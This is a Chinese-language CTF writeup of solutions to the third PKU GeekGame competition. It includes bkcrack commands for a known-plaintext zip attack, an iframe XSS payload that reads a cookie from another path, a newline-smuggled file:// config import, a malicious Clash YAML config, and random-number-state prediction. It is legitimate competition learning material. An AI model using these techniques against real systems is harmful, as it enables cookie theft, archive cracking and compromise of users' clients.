

第三届北京大学信息安全综合能力竞赛（PKU GeekGame）的Writeup，题目及官方题解：[geekgame-3rd](https://github.com/PKU-GeekGame/geekgame-3rd)。~~差一点拿到二等奖，逆向真不会啊啊啊啊啊~~


## 一眼盯帧

显然是要逐帧把字母拼起来，随便搜了个[在线工具](https://uutool.cn/gif2img/)拆分图片，可以读出`synt{jrypbzrgbtrrxtnzr}`。两个大括号保留了flag的特征，对字母做ROT13变换得到flag。


## 小北问答

**最爱的每年保留环节！**

> \#1  在北京大学（校级）高性能计算平台中，什么命令可以提交一个非交互式任务？

北极星[官方教程](https://hpc.pku.edu.cn/_book/guide/slurm/slurm.html)里找到答案：sbatch。


> \#2  根据 GPL 许可证的要求，基于 Linux 二次开发的操作系统内核必须开源。例如小米公司开源了 Redmi K60 Ultra 手机的内核。其内核版本号是？

很容易查到这款手机的内核是Android 13，以及GitHub上的[开源代码](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/corot-t-oss)，commits里有几条关于Android版本号的很显眼：


在这次更新内容里搜索version，发现关键的信息存储在Makefile里，查看最新的[Makefile](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/blob/corot-t-oss/Makefile)找到版本号。顺便吐槽GitHub上非常规文本类型的文件不能直接检索好麻烦……


> \#3  每款苹果产品都有一个内部的识别名称（Identifier），例如初代 iPhone 是 `iPhone1,1`。那么 Apple Watch Series 8（蜂窝版本，41mm 尺寸）是什么？

直接Google，找到外媒[GSMArena]((https://everymac.com/systems/apple/apple-watch/specs/apple-watch-series-8-gps-cellular-41mm-china-hong-kong-macau-a2857.html))的网站上有各种电子设备的型号参数，但是大小写不对。[EveryMac](https://everymac.com/systems/apple/apple-watch/specs/apple-watch-series-8-gps-cellular-41mm-china-hong-kong-macau-a2857.html)网站上有更准确详细的信息。

PS：写writeup的时候才发现Google `“iPhone1,1”` [第一条](https://gist.github.com/adamawolf/3048717)就有全部Apple移动设备的编号。


> \#4  本届 PKU GeekGame 的比赛平台会禁止选手昵称中包含某些特殊字符。截止到 2023 年 10 月 1 日，共禁止了多少个字符？（提示：本题答案与 Python 版本有关，以平台实际运行情况为准） 

查阅平台后端的开源代码，检索user_name, forbidden都没查到，最后用name定位到了[关键文件](https://github.com/PKU-GeekGame/gs-backend/blob/2a1b6743559b95a534e186c4e170eab6b8de5400/src/store/user_profile_store.py#L64)，发现变量名是nickname和disallowed，实在是电波没对上。


这段代码拿到python上跑一下就可以得到结果，刚好是python3.8的版本，没遇到奇奇怪怪的问题。


> \#5  在 2011 年 1 月，Bilibili 游戏区下共有哪些子分区？（按网站显示顺序，以半角逗号分隔）                        

[Wayback Machine](https://archive.org/web/)，启动！可惜直接检索bilibili.com找到的少数档案都打不开了。在b站找到个视频：[用时光机网站去看以前的b站网页](https://www.bilibili.com/video/BV1Xx411R7VP/)，评论区提到b站曾用的域名包括mikufans.cn，bilibili.us，bilibili.tv，思路打开，果然找到了2011年的存档：[游戏_嗶哩嗶哩 (archive.org)](https://web.archive.org/web/20110102140319/http://bilibili.us/video/game.html)。


> #6  这个照片中出现了一个大型建筑物，它的官方网站的域名是什么？（照片中部分信息已被有意遮挡，请注意检查答案格式）

这题很神秘，一开始按赞助商的文字信息检索到了iasp2019，图标背面也对上了，但是误以为是iasp的官网卡了好久，后来用无敌的⭐**Google**⭐**Lens**⭐试了一下没想到直接试出来了……卢森堡音乐厅建筑形状吻合，查了一下[iasp2023](http://www.iaspbo.com.cn/contents/2/533)也确实是在卢森堡办的，确认无误。


## Z 公司的服务器

[code](codes/zmodem.ipynb)

#### flag1

网页终端打开有乱码，但是用代码接收到的数据是`rz\r**\x18B00000000000000\r\x8a\x11`，结合题目描述，很容易猜到考点是sz/rz命令。题目要求直接用这种方法接受flag1，打开WireShark，筛选出客户端发送的数据，原样发送到服务器即可收到flag。


#### flag2

题目要求是从给出的流量包中提取数据。查到rz命令所属的协议叫ZMODEM，而数据流的开头给出了传输的文件名flag.jpg，所以就是从数据流中提取一个jpg文件。从WireShark导出相应的TCP流，根据jpg格式把`FF D8`到`FF D9`的数据直接复制出来，但是这样生成的文件无法读取，还是得仔细检查[协议规范](http://wiki.synchro.net/ref:zmodem)。查到一篇[实现概述](https://zhuanlan.zhihu.com/p/579720546)提到了非常简洁的处理方式：

> 接收相对简单，在需要解转义的数据段，只要遇到ZDLE，输出其后续字节的值异或0x40

简单做了转义处理后，得到一张非常模糊的图片，说明解码还是存在问题。


仔细阅读文档，发现文件头包括了传输文件的大小，字节数都没对上，~~但是居然还能读出来图片~~。查[资料](https://blog.csdn.net/alpbrook/article/details/123275755)发现ZMODEM将数据按1024字节分块，每块结尾还有两个`ZDLE`和4字节CRC校验码。对上述数据加入了每1024字节跳过6字节的处理，解码出的图片仍然不清晰，但是可以强行读出flag，就没有再精调。


## 基本功

**学到了好玩的东西！**之前只是模糊地知道加密压缩包可以明文攻击，没想到需要的明文这么少。

#### flag1

flag1的压缩包中包括`chromedriver_linux64.zip`和`flag1.txt`，很容易想到是明文攻击，那么就要找到这个chromedriver的源文件。在[官网](https://chromedriver.chromium.org/downloads)上可以找到所有历史版本，但是前几个的大小都对不上。在Google上强行搜索`chromedriver "5845152"`找到[文档树](https://chromedriver.storage.googleapis.com/)，发现对应的版本号应该是[89.0.4389.23](https://chromedriver.storage.googleapis.com/index.html?path=89.0.4389.23/)，大小和CRC都完全一致。拿到明文文件后，查到了ARCHPR这个工具，经过一晚上才破解出来。


#### flag2

另一篇[博客](https://www.freebuf.com/articles/network/255145.html)介绍了[bkcrack](https://github.com/kimci86/bkcrack)这个工具，只需要已知位置的12个字节即可进行破解，由于flag2中的[pcapng](https://pcapng.com/)文件有固定的文件头，可以仿照博客中的方法实现明文攻击：

```bash
# 把pcapng文件头中固定的12字节写入文件
$ echo 4d3c2b1a01000000ffffffffffffffff | xxd -r -ps > pcapng_header

# 偏移量为8，根据已经字节进行明文攻击
$ bkcrack -C challenge_2.zip -c flag2.pcapng -p pcapng_header -o 8 >log

# 破解出三个密钥为e555cb61 6f865f31 ecb9e966，解压缩目标文件
$ bkcrack -C challenge_2.zip -c flag2.pcapng -k e555cb61 6f865f31 ecb9e966 -d flag2.pcapng
```

破解这个压缩包只用了10秒！解出的pcapng文件直接丢进WinHex里字符查找即可得到flag。


## Dark Room

[code1](codes/room-flag1.ipynb)  [code2](codes/room-flag2.ipynb)

~~好玩，爱玩，多出点~~

#### flag1

手玩几轮可以发现内容是固定的，再看[源码](https://github.com/tinichu316/Dark_Room/blob/master/resources/map.txt)发现地图都给出来了，大概长这样：


总之经历了一些尝试之后，顺利拿到两把钥匙走出大门，得到的提示是保持san值在117以上才能拿到flag。尝试几轮之后最优的通关状态是比初始值少11点，所以出门时至少要有128点san值。经过尝试，help选项有概率回复san值，看源码可以确认是20%概率回复10点（同时由于进行一次行动还要扣除一点），所以只要欧皇四连抽全中就可以拿到 ~~SSR~~ flag了！开个脚本慢慢跑就搞定了。


#### flag2

手玩的时候发现Locked_Door2下方比原始地图多了一个房间，可以猜数字，猜错数字没有任何提示，乱输一串字符则会出现报错，泄露出一段源码。这里最后一行不是 `>>=` 就很莫名其妙，也没有试出来其他部分代码的报错，一阶段卡在这里了。

```python
while flag_number:
    choice = int(self.recv(b"Guess my public key (give me a number): ").decode())
    if flag_number & 1:
        p = getStrongPrime(2048)
        q = getStrongPrime(2048)
    flag_number >> 1
```

二阶段看到提示是注意报错信息，感觉之前没有走偏路，于是尝试在本地运行上面的代码，发现求一次大素数就要好几秒。又尝试玩了几轮，发现猜数字的回复速度有明显的快慢差异，这时就大概猜到了应该是将flag_number的二进制位反映在了回复时间上。用脚本统计了几轮，发现每轮都是刚好343次回复后终止，且生成的二进制数据都一样。这里以为要把解出来的数字交上去作为答案，但是怎么猜都不对，睡了一觉突然意识到这个长度相当于大约40个字符左右的字符串，直接读出来就是flag本身。

PS：事后一想，输出的报错信息压根不符合python常规的报错格式，回复时间又非常集中的出现在0s和1s附近，所以这段信息是伪装成报错的提示，其实压根不存在一个可以被猜出来的数字吧 (╯°Д°)╯︵ ┻━┻


## Emoji Wordle
[code](codes/wordle.ipynb)

#### flag1

既然都说了Level 1答案固定，就直接写脚本开猜。最优方案应该先试出来答案包括哪些emoji，再枚举排列方案，但是由于网页上直接提供了随机的答案候选，这里就偷懒不去重新生成高效的猜测，而是直接检查随机猜测里哪些是完全正确的，事实上复杂度还挺低的，不需要优化算法就出结果了。

#### flag2

web题首先肯定是检查源码和cookie，看到了熟悉的三段Base64编码的JWT，这么长的数据一看就有东西。直接丢进随便找的在线Base64解码器没解出来（应该是因为里面有emoji），还是[官网](https://jwt.io/)靠谱，直接读出答案。


#### flag3

Level 3的cookie还是JWT，存储的数据变成了随机种子、剩余次数和时间戳。虽然不能直接读出答案，但猜到答案应该是通过随机种子生成的，可以验证一下：在Level 3中读出下面这样的cookie，并进行一次随机猜测；重新进入关卡，把cookie粘贴到新关卡里，重复上一轮的猜测，发现结果不变，且更新后的cookie剩余次数仍为2。

```json
{
  "data": {
    "level": "3",
    "start_time": "1697828222492",
    "remaining_guesses": "3",
    "seed": "1.1205598603931663E12"
  },
  "nbf": 1697828232,
  "iat": 1697828232
}
```

这样解法就确定了，首先刷新关卡，得到一个剩余3次猜测的cookie，然后用这个cookie重复Level 1的穷举策略，即可得到正确答案。


## 第三新XSS

#### flag1

题目要求对同一个域名的网站进行XSS攻击，题目给的自由度很大，允许在主域名下建立任何类型的网页。审计源码发现，正常情况下应该是共享cookie的，唯一的阻碍是受害者给cookie加入了path参数。

```javascript
document.cookie = "flag={...}; path=/admin"
```

遇事不决先查文档，[文档](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie#%E5%AE%89%E5%85%A8)说路径限制并不能阻止从其他路径访问cookie，同源策略不会保护相同域名的网站，甚至还教了做法，可以用iframe访问其`contentDocument.cookie`属性。先写了一段测试代码，成功弹出目标网站的信息：

```html
<iframe id="xss" src="../admin"></iframe>

<script>
var iframe = document.getElementById("xss");
alert(iframe);
var iframeDoc = iframe.contentDocument;
alert(iframeDoc);
document.title = iframeDoc.cookie;
</script>
```

看起来是搞定了，删掉alert准备上传，结果……并没有拿到flag？？继续调试，发现居然是alert的问题，一旦删掉alert就会失效。请教一下万能的大模型：


**优！雅！**在Claude的帮助下重写代码拿到flag。

```html
<iframe id="xss" src="../admin"></iframe>

<script>
var iframe = document.getElementById("xss");
iframe.onload = function() {
  var doc = iframe.contentDocument; 
  document.title = doc.cookie;
}
</script>
```

#### flag2

学习[Service Worker](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers)，这是一种网页缓存机制，可以用于[持久化XSS攻击](https://cloud.tencent.com/developer/article/1745908)，但是有很多安全限制：

> 1、只能注册同源下的js
>
> 2、站内必须支持Secure Context，也就是站内必须是`https://`或者`http://localhost/`
>
> 3、Content-Type必须是js
>
> - text/javascript
>
> - application/x-javascript
>
> - application/javascript
>
> 4、必须用站内脚本注册，且作用域（Scope）必须是在脚本目录之下

前三条都很好满足，问题是怎么将SW注册到 `"/"` 这个 scope 上。正常创建的脚本只能保存到 `"/sw/"` ，如果去掉最后的斜杠会被chrome报错：`Failed to registration a ServiceWorker. The script resource is behind a redirect, which is disallowed.`


看起来应该是Flask的路由机制将 `"/sw"` 自动重定向到 `"/sw/"` ，可是一旦添加这个斜杠SW就无法注册到根目录。猜测可能要利用程序忽略subpath的特性进行路径穿越，但构造不出有效的url，摆了。


## 简单的打字稿

#### flag1

不了解TypeScript，居然还能这么定义类型？先查点资料：

> 在线TypeScript编译器：[TS Playground](https://www.typescriptlang.org/play)
>
> [浅谈 TypeScript 类型系统 - 知乎](https://zhuanlan.zhihu.com/p/64446259)

这种具有固定取值的类型叫做单例类型（Singleton Type），总之先在线上平台试一试，似乎所有针对变量的函数都无法作用于type，只有强行赋值的报错可以展示出flag1的值：

```typescript
type flag1 = 'flag{...}'
type flag2 = object | { new (): { v: () => (a: (a: unknown, b: { 'flag{...}': never } & Record<string, string>) => never) => unknown } }

const c: flag1 = 1;
// Error: Type '1' is not assignable to type '"flag{...}"'.
```

查看题目源码，如果输出当中包括字符串`flag`，就会被无情地屏蔽掉，所以如果能对flag1的内容进行某种转义就可以绕过屏蔽词。继续查资料，发现了神奇的类型体操，真是大开眼界：
>
> [TypeScript教程 / 类型运算符](https://wangdoc.com/typescript/operator)
>
> [玩转 TS 模板字符串类型](https://juejin.cn/post/7129864202604249096)
>
> TypeScript类型体操，用类型运算实现：[Lisp解释器](https://zhuanlan.zhihu.com/p/427309936)、[中国象棋](https://zhuanlan.zhihu.com/p/426966480) （啊？）

总之找到一个可以反转字符串的轮子，顺利拿到flag1：

```typescript
type ReverseString<Str extends string> = Str extends `${ infer First }${ infer Rest }` ? `${ ReverseString<Rest> }${ First }` : Str;

type T = ReverseString<flag1>
const x: T = 1;

// error: TS2322 [ERROR]: Type '1' is not assignable to type '"}gNal_ysae_ooOT_ROf_Ga1f_Ys4E_0oOt{galf"'.
```

#### flag2

flag2在类型的字符串运算的基础上，增加了函数类型。这里最难的是把后半部分从联合类型中分离出来，因为函数本身也属于object类型，常规的`Exclude`方法不起作用。如果用`Extract`方法，就需要定义一个包含 flag2 且不包含 object 的类型，通过把flag2中未知的部分定义为any可以实现。接下来就容易多了，用`infer`可以提取出包含flag2的类型，再用`keyof`提取出相应的变量名，最后将字符串反转，拿到flag2。

```typescript
// type f2 = Exclude<flag2, object> 这样写无效
type f2 = Extract<flag2, { new (): { v: () => (a: (a: unknown, b: any) => never) => unknown } }>

type getb<T> = T extends {new(): {v: () => (a: (a: unknown, b: (infer X) & Record<string, string>) => never) => unknown}} ? X : never

type f22 = getb<f2>

type ReverseString<Str extends string> = Str extends `${ infer First }${ infer Rest }` ? `${ ReverseString<Rest> }${ First }` : Str;

type res = ReverseString<keyof f22>;

const x: res = 1;

// error: TS2322 [ERROR]: Type '1' is not assignable to type '"}!N0HTYp_naHt_ReTTeb_GaLf_ST{galf"'.
```


## 非法所得

~~那一天，我回想起了被叶子的新歌支配的恐惧~~

#### flag1

审计源码，基本看懂了题目的逻辑：

> 1. flag1存放在配置文件`/app/profiles/flag.yml`里，flag2需要控制靶机访问原神学院ys.pku.edu.cn获得。
>
> 2. 整个环境大概包括两部分文件：`/app`是题目的网页端；`/usr/share/novnc`是VNC界面的配置文件，可以通过websockify直接读取。
>
> 3. 网页端api包括：
>
>    - 查看Clash各项状态，但是Proxies只能看到Rule
>
>    - 导入配置文件，但是限制只能是http或https链接
>
>    - 浏览网站，但是只能访问pku.edu.cn域名下的网站

那么目标首先是把本地的flag.yml导进去，http协议做不到，需要想办法导入file伪协议。经过无数次尝试之后，突然意识到整个环境是在完全模拟实际的输入和点击，那么只要把file藏在http和换行符后面，就可以模拟出连续的两次导入，像下面这样。




成功导入配置文件，但flag藏在Proxies里，从Rule界面仍然看不到。实在想不到办法，就去查Clash是否有历史漏洞，发现v0.19.8还真有[大](https://github.com/Fndroid/clash_for_windows_pkg/issues/2710) [问](https://www.ctfiot.com/125056.html) [题](https://www.youtube.com/watch?v=4AnapDDMlyI)，恶意构造的配置文件可以直接执行任意js代码！……理论上是这样，但是实际注入完全相同的yml文件并不能弹出计算器。试了半天只有alert可以正常弹出，但是一旦弹了alert就无法进行后续操作，只能重启环境，太憨憨了，一阶段卡在了这里。

二阶段并没有多出有用的提示，查了一下[RESTful API](https://clash.gitbook.io/doc/restful-api)可以实现任意位置任意文件下载，但大概是用来导入本地文件的，没找到其他用途，所以还是只能依赖一次性的alert找信息。总之花了很久试出来Clash的界面也是个html结构，里面有正常的DOM树。通过无数次`alert(document.body.children[0].xxx.innerHTML)`成功定位到了Proxies的Global选项卡，然后模拟**C-L-I-C-K-!** 切换页面，重新导入flag.yml即可看到flag。最后试出来的几个关键元素如下：

```javascript
// 左侧边栏 left-side: 
document.body.children[0].children[0].children[1]

// 代理窗口 proxy-view: 
document.getElementById("main-proxy-view")

// 切换到 General 选项卡: 
document.getElementById("main-proxy-view").children[0].children[0].children[0].click()

// 代理列表 proxy-list: 
document.getElementById("main-proxy-view").children[1]

// 切换到 proxy 3: 
document.getElementById("main-proxy-view").children[1].children[0].children[0].children[1].children[2].click()
```

导入以下脚本，可以在打开Proxies时自动切换到General选项卡：

```yaml
port: 7890
allow-lan: true
mode: Rule
log-level: info
external-controller: 0.0.0.0:9090
proxies:
  - name: flag
    type: socks5
    server: 127.0.0.1
    port: 1926
    skip-cert-verify: true

proxy-groups:
  -
    name: 
    type: select
    proxies:
    - flag

rules:
  - "DOMAIN-SUFFIX,pku.edu.cn,flag"
  - "GEOIP,CN,DIRECT"
  - "MATCH,DIRECT"
```


PS：我认为这套做法实在是太抽象了……flag1做得磕磕绊绊，整个做下来没有一点技术，感觉全是非预期 (╯°Д°)╯︵ ┻━┻

#### flag2

流程打通后，flag2的思路更直接，只要通过靶机的浏览器访问到ys.pku.edu.cn就行。一开始以为这个网站隐藏在服务器端，flag.yml里的端口号可以实现本地反代，但是仍然不能访问，那就只能手写一个代理了……

重新注入一个配置文件，把代理服务器改成本机ip，访问网站时确实可以接收到socket数据，但是没找到现成的轮子，二阶段摆了。


## 汉化绿色版免费下载

[code](krkr.ipynb)

#### flag1

手玩一遍，输入两次同样的字符串就能进入通关界面，看起来像是有串字符被隐藏了。直接上Cheat Engine，在内存里搜索字符串`Flag 1`拿到答案。


#### flag2

第一部分的答案提示要解压xp3文件，搜了一下才发现原来用的是~~galgame~~视觉小说游戏引擎Kirikiri，xp3是其专属的压缩格式，可以用[KirikiriTools](https://github.com/arcusmaximus/KirikiriTools/releases)里的XP3Viewer解压。解压后的文件夹包括了大量游戏文件，并且能直接取代原本的xp3。

最早的想法是修改配置文件`Config.tjs`，看能不能打开查看历史对话的功能，但琢磨了一会觉得之前没保存的话现在打开也看不到。继续检查代码，在`scenario/`里找到了控制游戏逻辑的代码，比对两次输入的字符串是依靠自定义的哈希算法，进行特定运算后 *取膜* 得到。提示说还有其他信息，那剩余的关键信息只能是在存档里了。存档同样可以用[KirikiriTools](https://github.com/arcusmaximus/KirikiriTools/releases)里的KirikiriDescrambler解开。

为了控制变量以解析存档里的信息，我重新解压了一遍游戏，输入`flag{AEIOU}`后直接存档退出，然后检查存档文件的变化。两个`kdt`文件比对之后只有哈希值不同，完整的操作路径并没有被记录下来，反倒是`datasu.ksd`里多出了不少信息。这个文件应该是全局的信息记录，可以观察到`trail_round1_sel_*`对5个字母的记录各多出一个，因此可以确定原始数值就是出题人分别选择5个字母的次数`{"A": 6, "E": 3, "I": 1, "O":6, "U":0}`。对这些字母枚举全排列，找到符合哈希值的排列方式，就得到出题人所输入的字符串。

PS：查[资料](https://iyn.me/i/post-45.html)时发现Kirikiri甚至会在存档的画面预览缩略图中存信息，真是太奇妙了（？）


## 关键词过滤喵，谢谢喵

Human Resource Machine & 7 Billion Humans 玩家狂喜喵！~~建议增设代码行数和运算速度挑战喵，谢谢喵！~~

#### flag1 字数统计喵

思路是先把所有字符统一成相同的形式（字母"x"），然后以十合一的方式模拟进位。一开始手动处理了10位十进制数，后来debug的时候改进成更优雅的循环形式了。这里主要的corner case就是空文件和换行符，评测程序的文件名给出了提示，还是很友好的。

```
把【[\s\S]】替换成【x】喵

loop：
把【x{10}】替换成【u】喵
如果看到【x】就跳转到【sum】喵

如果没看到【\d】就跳转到【first】喵

把【(\d+)$】替换成【0\g<1>】喵
如果看到【$】就跳转到【sum】喵

first：
把【$】替换成【0】喵

sum：
把【x{9}】替换成【9】喵
把【x{8}】替换成【8】喵
把【x{7}】替换成【7】喵
把【x{6}】替换成【6】喵
把【x{5}】替换成【5】喵
把【x{4}】替换成【4】喵
把【x{3}】替换成【3】喵
把【x{2}】替换成【2】喵
把【x{1}】替换成【1】喵

把【u】替换成【x】喵
如果看到【x】就跳转到【loop】喵

谢谢喵
```

#### flag2 排序喵

一步步按冒泡排序的逻辑处理，大概需要以下几步：

1. 先把多余的空行清洗干净
2. 设定一个指针置于首行，表示当前正在处理哪一行
3. 把当前行与下一行比较，如果下一行更短就交换位置，然后将指针下移一行
4. 如果指针到达最后一行， 说明一轮排序完成，当前末行不需要参与下一轮排序，打上标记，指针重新置顶
5. 每行都打过标记后排序完成，删掉所有标记和指针符号

在比大小的过程中，具体做法是先把两行各复制一遍，然后重复做成对删除，先被删完的就是更短的，然后利用`\g<1>`交换位置。另外由于文本中没有emoji，可以用各种emoji代表指针和特殊标记。

```
# 👆 line pointer
# 👇 finish mark
# 🐘 separator

把【$】替换成【\n】喵
重复把【\n\n】替换成【\n】喵
如果没看到【.*\n.*\n】就跳转到【break】喵
把【(.*)\n】替换成【\g<1>🐘\g<1>\n】喵

loop：
把【^】替换成【👆】喵

swap：
重复把【(👆.*).(🐘.*\n.*).(🐘.*\n)】替换成【\g<1>\g<2>\g<3>】喵
如果看到【👆🐘】就跳转到【less】喵

greater：
把【👆.*🐘(.*)\n🐘(.*)\n】替换成【\g<2>🐘\g<2>\n👆\g<1>🐘\g<1>\n】喵
如果看到【^】就跳转到【next】喵

less：
把【👆🐘(.*)\n.*🐘(.*)\n】替换成【\g<1>🐘\g<1>\n👆\g<2>🐘\g<2>\n】喵

next：
如果看到【👆.*\n$】就跳转到【loop_back】喵
如果看到【👆.*\n👇】就跳转到【loop_back】喵

如果看到【^】就跳转到【swap】喵

loop_back：
把【👆】替换成【👇】喵
如果看到【^.*\n👇】就跳转到【end】喵
如果看到【^】就跳转到【loop】喵

end：
重复把【.+🐘】替换成【🐘】喵
把【.*🐘(.*\n)】替换成【\g<1>】喵

break：
重复把【^\n】替换成【】喵
重复把【\n$】替换成【】喵
谢谢喵
```

#### flag3 Brainfuck 喵

照着[语法描述](https://esolangs.org/wiki/Brainfuck)一步步实现就好了喵！注意`.+[]`都需要转义喵！

```
# 💀 output pointer
# 👉 memory pointer, on the left of unit
# 💉 depth counter
# 💊 code pointer
# 🐘 separator

把【[^<>+-.\[\]]】替换成【】喵
把【^】替换成【💊】喵
把【^】替换成【💉🐘】喵
把【^】替换成【👉 🐘】喵
把【^】替换成【💀🐘】喵


loop：
如果看到【💊>】就跳转到【f1】喵
如果看到【💊<】就跳转到【f2】喵
如果看到【💊\+】就跳转到【f3】喵
如果看到【💊-】就跳转到【f4】喵
如果看到【💊\.】就跳转到【f5】喵
如果看到【💊\[】就跳转到【f6】喵
如果看到【💊\]】就跳转到【f7】喵

如果看到【💊$】就跳转到【end】喵
把【💊(.)】替换成【\g<1>💊】喵
如果看到【^】就跳转到【loop】喵


f1：
把【👉(a*) 】替换成【\g<1> 👉】喵
把【👉🐘】替换成【👉 🐘】喵
把【💊(.)】替换成【\g<1>💊】喵
如果看到【^】就跳转到【loop】喵


f2：
把【(a* )👉】替换成【👉\g<1>】喵
把【💊(.)】替换成【\g<1>💊】喵
如果看到【^】就跳转到【loop】喵


f3：
把【👉】替换成【👉a】喵
把【💊(.)】替换成【\g<1>💊】喵
如果看到【^】就跳转到【loop】喵


f4：
把【👉a】替换成【👉】喵
把【💊(.)】替换成【\g<1>💊】喵
如果看到【^】就跳转到【loop】喵


f6：
如果没看到【👉 】就跳转到【f6_continue】喵

f6_loop：
把【💊(.)】替换成【\g<1>💊】喵
如果看到【💊\]】就跳转到【f6_judge_zero】喵 
如果看到【💊\[】就跳转到【f6_add】喵 
如果看到【^】就跳转到【f6_loop】喵 

f6_add：
把【💉】替换成【💉d】喵
如果看到【^】就跳转到【f6_loop】喵 

f6_judge_zero：
如果看到【💉🐘】就跳转到【f6_continue】喵 
把【💉d】替换成【💉】喵
如果看到【^】就跳转到【f6_loop】喵 

f6_continue：
把【💊(.)】替换成【\g<1>💊】喵
如果看到【^】就跳转到【loop】喵


f7：
如果没看到【👉a】就跳转到【f7_move_and_continue】喵

f7_loop：
把【(.)💊】替换成【💊\g<1>】喵
如果看到【\]💊】就跳转到【f7_add】喵 
如果看到【\[💊】就跳转到【f7_judge_zero】喵 
如果看到【^】就跳转到【f7_loop】喵 

f7_add：
把【💉】替换成【💉d】喵
如果看到【^】就跳转到【f7_loop】喵 

f7_judge_zero：
如果看到【💉🐘】就跳转到【f7_continue】喵 
把【💉d】替换成【💉】喵
如果看到【^】就跳转到【f7_loop】喵 

f7_move_and_continue：
把【💊(.)】替换成【\g<1>💊】喵

f7_continue：
如果看到【^】就跳转到【loop】喵


f5：
把【💀🐘(.*)👉(a{32}) (.*$)】替换成【 💀🐘\g<1>👉\g<2> \g<3>】喵
把【💀🐘(.*)👉(a{33}) (.*$)】替换成【!💀🐘\g<1>👉\g<2> \g<3>】喵
【【中间省略喵！】】
把【💀🐘(.*)👉(a{121}) (.*$)】替换成【y💀🐘\g<1>👉\g<2> \g<3>】喵
把【💀🐘(.*)👉(a{122}) (.*$)】替换成【z💀🐘\g<1>👉\g<2> \g<3>】喵

把【💊(.)】替换成【\g<1>💊】喵
如果看到【^】就跳转到【loop】喵


end：
把【^(.*)💀.*$】替换成【\g<1>】喵

谢谢喵
```


## 未来磁盘

#### flag1

这道题是第一阶段最后冲分做的，做法比较功利。观察最后一次压缩的文件，可以看出来分段点大约在中间。找了个5T的大硬盘直接解压，解压到一半的时候从中间找字符串直接找到了。

现在再想，用管道符应该可以不占用硬盘直接解压；或者更简单一点，由于其他部分完全没有信息，直接用`zcat`输出到终端就行。


## 小章鱼的曲奇

[code](tako.ipynb) (flag1 & flag2)

~~好像没搞懂，迷迷糊糊就过了~~

#### flag1

题目对flag加上了随机生成的噪声，但是flag前面有2500比特的空白。python的随机数生成使用了梅森旋转算法（MT19937），只要有624个连续的32位数字，我们就可以据此推断后续的随机数内容，这里刚好是足够的。找个[现成的轮子](https://blog.csdn.net/qq_57235775/article/details/131168939)改一下就能用。

#### flag2

题目要求构造一个seed2，和seed1分别作为种子生成随机数，加入一定的偏移量后与噪声异或，其余部分和前面一样。或许有合理的算法可以构造seed2，但是任取一个数字再枚举偏移量的计算量也是可接受的。

……写完枚举的算法发现任意偏移量都可以算出结果，所以事实上多个随机数的异或仍然符合梅森旋转算法的规律？没有仔细推算。

#### flag3

没看懂这题想干嘛，输出了100个随机种子，再读取100个随机种子，要求每对种子输出的随机数相同，但没有要求种子不同？而且python里zip这种组合方式会取两组列表中较短的长度，所以直接输入第一个种子就拿到了flag。


